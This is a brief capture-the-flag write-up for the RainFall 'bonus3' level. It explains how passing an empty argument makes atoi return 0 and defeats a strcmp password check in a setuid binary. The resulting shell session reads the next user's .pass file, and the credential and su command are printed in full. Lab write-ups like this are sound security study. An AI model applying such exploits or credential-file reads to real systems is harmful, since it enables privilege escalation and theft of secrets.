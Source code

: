We see here that to have a shell, we just need that the strcmp between the content of the .pass and our first argument are the same.
There is just one tweak that has been done to the content of `/home/user/end/.pass` :

```c
		iVar2 = atoi(argv[1]);
		*(undefined *)((int)local_98 + iVar2) = 0;

```

Basically, we can choose where the string will end, so when the strcmp will end.
The trick here is that `atoi("")` return 0.
By doing so, local_98 will became `\x00flag`, so when use as a string : only `""` :

>bonus3@RainFall:~$ ./bonus3 ""
>$ whoami
>end
>$ cat /home/user/end
>cat: /home/user/end: Is a directory
>$             
>bonus3@RainFall:~$ ./bonus3 ""
>$ whoami
>end
>$ cat /home/user/end/.pass
>3321b6f81659f9a71c76616f606e4b50189cecfea611393d5d649f75e157353c

```bash
su end
3321b6f81659f9a71c76616f606e4b50189cecfea611393d5d649f75e157353c
```

